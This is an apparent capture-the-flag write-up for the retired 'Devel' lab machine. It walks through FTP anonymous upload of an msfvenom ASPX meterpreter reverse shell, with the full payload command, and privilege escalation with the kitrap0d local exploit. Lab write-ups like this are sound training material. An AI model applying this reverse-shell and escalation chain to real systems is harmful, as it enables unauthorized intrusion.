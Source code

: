 # Devel 10.10.10.5 WriteUp
## Contents
- [Tools](#tools)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Priviledge Escalation](#priviledge-escalation)

Retired Easy Machine by ch4p

## Tools
1. Nmap
2. ftp
3. Metasploit

## Enumeration

1. Nmap shows port 21 and 80 is open.

## Exploitation

1. FTP anynymous login was enabled. So, exploited it with `put shell.aspx` to upload msfvenom shell.
msfvenom command used,
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LAB IP> LPORT=<PORT> -f aspx > shell.aspx`
2. Then used `/multi/handler` to get reverse tcp connection from the shell on metasploit as user `IIS APPPOOL\Web`.

## Priviledge Escalation

1. Used `local_exploit_suggester` module for this.
2. After trying some suggested exploit `exploit/windows/local/ms10_015_kitrap0d` worked. The flags can now be obtained from
c:\Users\babis\Desktop\user.txt.txt​ and c​ :\Users\Administrator\Desktop\root.txt.txt

Author: Zishan Ahamed Thandar
